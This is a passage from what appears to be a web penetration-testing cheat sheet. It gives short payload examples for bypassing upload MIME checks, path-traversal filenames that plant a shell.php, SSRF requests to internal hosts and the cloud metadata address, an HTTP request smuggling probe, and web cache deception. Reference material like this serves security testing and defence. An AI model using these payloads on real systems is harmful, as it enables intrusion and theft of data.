 **MIME type bypasses:**
```
# Upload PHP file with image MIME type
Content-Type: image/jpeg
(for a .php file)
```

### Path Traversal in Uploads

**Filename manipulation:**
```
# Try to write outside web directory
../../../var/www/shell.php
..%2f..%2f..%2fvar%2fwww%2fshell.php (URL encoded)
```

---

## Advanced Attack Techniques

### Server-Side Request Forgery (SSRF)

**Internal network scanning:**
```
# URL parameters that make server requests
url=http://192.168.1.1:8080
callback=http://localhost:3306
webhook=http://169.254.169.254/ (cloud metadata)
```

### HTTP Request Smuggling

**Why it works:** Frontend and backend servers disagree about request boundaries.

**Basic test:**
```
POST / HTTP/1.1
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

### Cache Poisoning

**Web cache deception:**
```
# Request: /profile/user123.css
# Cache stores as CSS file but server processes as profile page
# Attacker can later access cached sensitive data
```

---